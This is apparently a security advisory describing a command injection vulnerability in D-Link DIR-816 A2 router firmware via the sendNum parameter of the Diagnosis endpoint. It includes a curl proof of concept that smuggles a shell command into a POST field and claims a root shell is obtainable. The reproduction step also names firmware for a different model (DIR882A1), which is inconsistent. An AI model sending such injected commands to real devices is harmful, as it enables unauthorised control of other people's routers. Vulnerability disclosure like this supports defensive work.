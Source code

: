 # D-link DIR-816 A2_v1.10CNB04.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： [http://tsd.dlink.com.tw/GPL.asp](http://tsd.dlink.com.tw/GPL.asp)

## 1. Affected version

![image-20220409142816775](img/image-20220409142816775.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220409143502585](img/image-20220409143502585.png)

The program passes the content obtained through the sendnum parameter to V12, and then formats V12 into the stack of v10

![image-20220409143522241](img/image-20220409143522241.png)

After that, V10 is brought into the dosystembk function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR882A1_FW130B06.bin
2. Attack with the following POC attacks

```
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=xxxx -d 'sendNum=`ls > /tmp/456`'
```

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell